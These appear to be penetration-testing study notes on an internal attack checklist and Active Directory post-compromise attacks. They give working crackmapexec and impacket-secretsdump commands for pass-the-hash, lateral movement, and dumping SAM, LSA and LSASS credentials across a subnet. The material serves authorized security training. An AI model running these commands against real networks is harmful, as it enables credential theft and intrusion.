https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/

### Initial Internal Attack Strategy

1. Begin day with mitm6 or Responder
2. Run scans to generate traffic (Nessus, nmap)
3. If scans are taking too long, look for websites in scope (http_version)
4. Look for default credentials on web logins; Printers, Jenkins, etc
5. Think outside the box

If initial attack doesn't get credentials, ask the client for credentials to further test the network

Enumerate!

# Active Directory Post-Compromise Attacks

### Introduction

What happens after we have an account?

Moving vertically and laterally

### Pass Attacks Overview

**Pass the Password/Pass the Hash**

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

**Pass the Password**

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Grab hashes with Metasploit's `hashdump` or with Impacket's secretsdump if we have access to an Admin account

`impacket-secretsdump domain/user:password@10.0.0.1`

**Pass the Hash**

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth`

We can use CME to dump valuable data

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --sam`

Enumerate shares

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --shares`

Dump the Local Security Authority (LSA)

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --lsa`

CME also has built-in modules, list them with `crackmapexec smb -L`

lsassy allows us to dump the [Local Security Authority Subsystem Service (LSASS)](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

